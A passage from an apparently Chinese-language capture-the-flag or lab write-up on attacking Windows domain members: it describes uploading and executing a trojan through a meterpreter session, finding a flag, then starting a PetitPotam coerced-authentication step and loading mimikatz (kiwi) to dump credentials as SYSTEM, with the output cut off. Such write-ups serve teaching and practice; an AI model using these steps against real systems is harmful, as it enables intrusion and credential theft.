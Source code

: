 使用 upload 上传木马

[![](assets/1705989181-a32310cb3394e8953c2279d757ede08f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170026-af07ca12-b904-1.png)

`execute`指令执行文件

[![](assets/1705989181-308917075e23d93c21ca04bd16328e0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170032-b2dc5f5e-b904-1.png)

在`C:/Users/Administrator/flag`下发现 flag

[![](assets/1705989181-ee79893e6756969983ca40a59f8946a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122170038-b690aa92-b904-1.png)

## 攻击域成员二 (PetitPotam 强制认证)

### 票据抓取

列出票据

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

```